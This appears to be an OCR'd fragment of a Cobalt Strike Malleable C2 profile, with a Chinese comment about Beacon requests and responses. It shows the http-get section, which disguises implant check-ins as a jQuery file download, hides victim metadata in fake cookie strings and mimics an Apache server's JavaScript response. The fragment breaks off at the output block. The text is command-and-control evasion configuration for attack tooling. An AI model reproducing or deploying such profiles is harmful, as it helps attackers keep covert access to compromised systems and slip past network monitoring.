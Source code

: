 ```plaintext
# 设置 Beacon 命令请求与响应
http-get {  

    set uri "/jquery-3.3.1.min.js";

    client {  

        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Referer" "https://www.example.com/";
        header "Accept-Encoding" "gzip, deflate";

        metadata { 
            base64url;  
            prepend "SIDCC=";
            prepend "SEARCH_SAMESITE=CgQIxZcB;";  
            prepend "lQaRlebM9FunyP84_a05drda1X6FPXP26n5G7mWCRN2bN_Gu";
            append "AFvIBn9dV3DED_b9abMYP15oQHAYTY3TuRA5Dy8Etv42aCa9TOkpoR5MLV4MtgiDNguD_3uUfw%2F%2BFE6%2F%2FX8T4Q%3D%3D"; 
            header "Cookie";  
        }  
    }  

    server {  

        header "Server" "Apache";  
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";
        header "Content-Encoding" "gzip";  

        output {
            # 2nd Line
```